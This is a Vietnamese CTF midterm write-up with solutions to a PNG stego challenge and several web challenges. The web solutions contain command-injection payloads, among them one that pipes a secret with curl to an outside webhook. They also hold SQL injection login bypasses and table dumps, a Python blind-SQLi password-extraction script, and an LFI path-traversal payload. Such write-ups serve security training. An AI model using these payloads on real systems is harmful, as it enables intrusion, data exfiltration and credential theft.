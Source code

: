 # midterm-test-W1-writeup

## [Forensics] DIMENSION

### Challenge
> Yet Another Stego Challenge<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/657606fdb5faa98550bbdb665f794a44/attachment.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwMH0.ZLzsTA.3lJIkLTyxMF8Pd1n5uvdClmMM6A)

### Solution
- Ở đây đề bài cho 1 file ảnh với kích thước `0x0` kết hợp cùng tên đề bài mình đoán sẽ sửa 8 byte chiều dài và rộng để khôi phục lại bức ảnh ban đầu.
- Tool mình sử dụng ở đây là [png-dimensions-bruteforcer](https://github.com/cjharris18/png-dimensions-bruteforcer), điều chỉnh range bruteforce lên xíu ta sẽ thu được kết quả.
![](2023-07-23-16-14-05.png)
![](2023-07-23-16-14-49.png)
```
Flag: W1{d1meNsiOn_i5_cO0l_r19ht?}
```

## [Web] HEAD1

### Challenge
> [http://45.122.249.68:20018/](http://45.122.249.68:20018/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/8f80fff2c153912fc5322388b2b69332/head1.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNn0.ZLyUUw.qKuUDVqRmiQZwgtJUrvXOP3X2ZQ)

### Solution
```php
<?php

if (strpos($_SERVER['REQUEST_URI'], '_')) {
    die("no no no");
}

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_POST['input_data']);
    echo $output;
}

show_source(__FILE__);
```
- Ở bài này source code khá đơn giản đầu tiên là mình phải bypass được ký tự `_` trong `input_data`, thì ở đây đơn giản ta chỉ cần **URL encode** ký tự `_` sẽ bypass được điều kiện đầu tiên.
- Sang với điều kiện thứ 2, trong đầu mình đặt ra 1 câu hỏi là làm sao có thể truyền cùng lúc data cho `$_GET` và `$_POST`, giải pháp là ta sẽ sử dụng lệnh `curl` với option `-d` hoặc có thể gửi trực tiếp request thông qua `BurpSuite`

![](2023-07-23-10-06-39.png)
- Câu lệnh hoàn chỉnh như sau: `curl -d input_data=%3Bls%20%2F http://45.122.249.68:20018/\?input%5fdata\=`
- Request sẽ được gửi dưới dạng như sau
```http
POST /?input%5fdata= HTTP/1.1
Host: 45.122.249.68:20018
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

input_data=%3Bls%20%2F
```
- Kết quả nhận được là
![](2023-07-23-10-14-34.png)

```
Flag: W1{ez_head1_huh}
```

## [Web] HEAD2

### Challenge
> [http://45.122.249.68:20019/](http://45.122.249.68:20019/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/a6750a769d391094b4fa05b349cea45e/head2.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNH0.ZLyglw.YagF13lszTqadAdn95aq2a9FKK8)

### Solution
```php
<?php

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_GET['input_data']);
    // echo $output;
}

show_source(__FILE__);
```
- Ở bài này thì ta truyền vào được `OS Command` nhưng câu hỏi đặt ra là *Làm sao để đọc được kết quả ra đây?*
- Thì ở đây đầu tiên ta kiểm tra thấy sever không chặn kết nối ra ngoài, vậy nên giải pháp ở đây sẽ là đọc file và gửi nó ra ngoài Internet và bắt lại là xong.
- Payload: `; echo $FLAG | curl https://webhook.site/bb145fec-1626-4da3-b695-7cc86b11e295 --data-binary @-;`

```
Flag: W1{webhook_not_so_bad_huh?}
```

## [Web] DEJAVU

### Challenge
> Bài này quen quen 🐳 <br/>
> [http://45.122.249.68:20017/](http://45.122.249.68:20017/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/e68f2b74721ee7ce9863f1b983508161/dejavu.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwM30.ZLykUA.6cORsdHqk08qta_RVa7jUtuBp2s)

### Solution
- Bài này khá tương tự với 1 bài đã giải trong traning, cơ bản **flag** gồm 3 phần nằm hết ở database.
![](2023-07-23-10-56-15.png)
- Sơ qua về trang web thì ở trang `index.php` sẽ cung cấp cho ta 1 form login và qua file `login.php` khi ta đăng nhập thành công sever sẽ redirect qua `/news.php`. Ở dòng 13 ta có thể thực hiện **SQL Injection** để bypass qua phần login.
![](2023-07-23-10-58-50.png)
- Có 1 chú ý là ở file `news.php`, sever sẽ kiểm tra xem `$_SESSION['username']` của chúng ta có phải là `admin` hay không nên payload để **SQLi** phần login sẽ như sau:
    - `username`: `admin`
    - `password`: `' UNION SELECT username,password FROM users WHERE username='admin`
- Ở `/news.php` có 1 đoạn code khá *nhạy cảm* giúp chúng ta có thể truyền vào biến `$_GET['name']` qua đó có thể đọc nội dung từ database.
![](2023-07-23-11-04-09.png)
- Payload cho **Part 1**: `' UNION SELECT flag, flag FROM secret -- `
![](2023-07-23-11-07-36.png)
- Ở **Part 2** thì flag nằm trong 1 bảng ta chưa biết tên nên ta có thể sử dụng payload `' UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS -- ` để in ra thông tin bao gồm tên các bảng và cột.
![](2023-07-23-11-09-50.png)
- Payload cho **Part 2**: `' UNION SELECT flag_5959595959408498_5959595959408498, flag_5959595959408498_5959595959408498 FROM secret_8489498498112318_8489498498112318 -- `
![](2023-07-23-11-10-34.png)
- Ở **Part 3** thì flag là mật khẩu của tài khoản `admin`, ở đây cách để khai thác sẽ là `bruteforce`. Xoá cookie đang có để reset `$_SESSION` rồi bruteforce password từ trang `login.php`. Script bruteforce như sau: *(ban đầu mình bruteforce theo kiểu truyền thống thì độ phức tạp khá lớn, hết giải có người anh chỉ điểm nên mình áp dụng binsearch giúp giảm độ phức tạp đi khá nhiều)*
```py
import requests

# charset = string.ascii_letters + string.digits + string.punctuation
url = "http://45.122.249.68:20017/login.php"


def check(pos, operator, mid):
    data = {
        "username": f"admin' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username = 'admin'), {pos}, 1)) {operator} {mid} -- ",
        "password": "abc",
    }
    r = requests.post(url, data=data)
    return r.url == "http://45.122.249.68:20017/news.php"


def bin_search(pos):
    # Giới hạn trên mình tự tăng bằng tay vì trong flag có thêm icon nên mình sẽ tăng từ từ.
    l, h = 0, 262144
    while h - l > 1:
        m = l + h >> 1
        if check(pos, ">", m):
            l = m
        else:
            h = m
    return chr(h) if check(pos, "=", h) else None


passwd = ""
found = False
while not found:
    found = True
    c = bin_search(len(passwd) + 1)
    if c:
        passwd += c
        found = False
        print("Password: ", passwd)
        if c == "}":
            break
```
![](2023-07-23-15-58-12.png)
```
Flag: W1{part1_part2_part③_ⓓⓔⓙⓐⓥⓤ_福🐳😁}
```

## [Web] SIMPLE STUFF

### Challenge
> Trang báo này đăng nhiều tin hay phết, dù là toàn gen từ ChatGPT... nhưng mà khoan đã, hình như trang web này có vấn đề gì đó... Bạn có thể tìm ra vấn đề của trang web này không? <br/>
> [http://45.122.249.68:20020/](http://45.122.249.68:20020/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/17d67af31ce59c474ee7f8f8aabc8a39/simple_stuff.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjExNX0.ZL0AJQ.SqIYeU2j6t4AtHEcFTfgnBPKqg8)

### Solution
- Sơ qua về source code thì ở `Dockerfile` của backend thì ta thấy flag nằm ở `/flag.txt`, `Ctrl+Shift+F` thì thấy nội dung của file được sử dụng ở `admin/index.php` vậy thì trước tiên ta cần truy cập được endpoint này.
- Ở file `index.php` của backend ta có thể thấy `$_GET["id"]` được nối chuỗi trực tiếp vào `articles/news` và đoạn code còn sử dụng 1 hàm khá nguy hiểm là `include()`
![](2023-07-23-17-44-00.png)
 nên ta có thể `LFI` đến endpoint `admin/index.php` thông qua payload `?id=../../../admin/index.php`
 ![](2023-07-23-17-46-46.png)
 - Nội dung của file `/flag.txt` được **XOR** với `username` và gán kết quả vào biến `$_SESSION["id"]`
 ![](2023-07-23-18-22-18.png)
 - Giải thích sơ qua về hàm `do_xor`, hàm này thực hiện **XOR** 2 chuỗi nếu `$str_2` có độ dài chưa bằng `$str_1` sẽ thêm `=` vào cuối `$str_2` tới khi 2 chuỗi bằng độ dài. Hàm thực hiện **XOR** lần lượt từng ký tự và nối vào `$result` và dùng `-` để ngăn cách giữa các kết quả.
- Vậy ở đây cần thực hiện `SQLi` để login thành công và có được `$_SESSION["id"]` rồi thực hiện `reverse XOR` và lấy được **flag**.
- Tuy biết cách giải nhưng chưa tìm được cách **inject** thành công nên mình cũng dừng lại ở đây.
